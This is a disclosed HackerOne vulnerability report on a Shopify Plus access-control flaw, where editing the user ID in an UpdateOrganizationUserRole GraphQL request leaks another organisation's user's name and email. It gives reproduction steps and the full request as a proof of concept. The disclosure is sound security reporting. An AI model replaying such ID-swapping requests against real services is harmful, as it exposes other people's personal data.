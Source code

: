 # [h1-2102] Improper Access Control at https://shopify.plus/[id]/users/api in operation UpdateOrganizationUserRole

## Report Details
- **Report ID**: 1084638
- **URL**: https://hackerone.com/reports/1084638
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-22T16:01:56.652Z
- **Disclosed**: 2022-04-21T19:06:02.105Z

## Reporter
- **Username**: ramsexy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
There is an access control issue that happens when a Shopify Plus admin tries to assign a role to a user in another organisation. While the response shows an error message, an email is sent to the shop admin with the first name, last name and email address of the user.

## Steps To Reproduce:
1. Log in to your Shopify Plus account https://shopify.plus/login
2. Go to `Administration` -> `Users` -> `Roles` -> `Create role` then proceed to create a role
3. Go to `Administration` -> `Users` -> `All users` -> `Add users` then proceed to create a user
4. In `Administration` -> `Users` -> `All users`, click on the new user to go to the user page (ie. https://shopify.plus/34808573/users/34057938)
6. In `Access and permissions`, in the `Role` section, click on `Change access` then `Change role`

    {F1168058} 

7. Change the role, and notice the following HTTP request :

    ```http
POST /34808573/users/api HTTP/1.1
Host: shopify.plus
[...]

    {"operationName":"UpdateOrganizationUserRole","variables":{"id":"Z2lkOi8vb3JnYW5pemF0aW9uL09yZ2FuaXphdGlvblVzZXIvMzQwNzE2MzI=","roleId":"Z2lkOi8vb3JnYW5pemF0aW9uL1JvbGUvNjYxAAA="},"query":"mutation UpdateOrganizationUserRole($id: OrganizationUserID!, $roleId: RoleID!) {\n  updateOrganizationUserRole(id: $id, roleId: $roleId) {\n    organizationUser {\n      id\n      status\n      role {\n        id\n        name\n        __typename\n      }\n      propertyAccess {\n        shops {\n          edges {\n            node {\n              shopUserId\n              status\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        apps {\n          edges {\n            node {\n              status\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    message\n    operationStatus\n    __typename\n  }\n}\n"}
```
8. Base64-decode the `id` value and change the user to `34071632` then send the request again
9. The request will fail, but you should receive an email containing Anatoly information (first name, last name and email address).
    {F1168063}

## Impact

A Shopify Plus admin can retrieve PII from another user outside his organisation (first name, last name and email address).

## Attachments
- Screen_Shot_2021-01-22_at_10.48.38_AM.png
- Screen_Shot_2021-01-22_at_10.12.10_AM.png
